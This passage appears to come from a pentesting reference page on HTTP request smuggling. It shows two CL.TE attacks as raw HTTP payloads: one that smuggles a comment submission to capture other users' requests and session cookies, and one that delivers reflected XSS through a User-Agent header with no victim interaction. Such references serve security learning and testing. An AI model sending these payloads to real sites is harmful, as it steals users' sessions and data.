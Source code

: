 ### <mark style="color:purple;">Capturing other users' requests</mark> <a href="#capturing-other-users-requests" id="capturing-other-users-requests"></a>

<mark style="color:purple;">**CL.TE**</mark>

Smuggle a request that submits data to the storage function, with the parameter containing the data to store positioned last in the request.

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 198
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Cookie: session=dL3MaAvRhsnHdriaFnPxSdvXdt3jx6B1
Content-Length: 650

csrf=ihmEx8D&postId=1&name=test&email=test@test.test&comment=
```

{% hint style="info" %}
**Note**: One limitation with this technique is that it will generally only capture data up until the parameter delimiter that is applicable for the smuggled request. For URL-encoded form submissions, this will be the `&` character, meaning that the content that is stored from the victim user's request will end at the first `&`, which might even appear in the query string
{% endhint %}

{% hint style="success" %}
**Tip**: Another way to steal other users' responses is with the [#response-queue-poisoning](http-request-smuggling.md#response-queue-poisoning "mention") technique.
{% endhint %}

### <mark style="color:purple;">Exploit reflected XSS</mark>

<mark style="color:purple;">**CL.TE**</mark>

You can use a request smuggling attack to target other users of the application. This method is better than standard reflected XSS because it doesn't require victim interaction and can exploit XSS in areas like HTTP headers, which are not possible to control in typical attacks.

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```
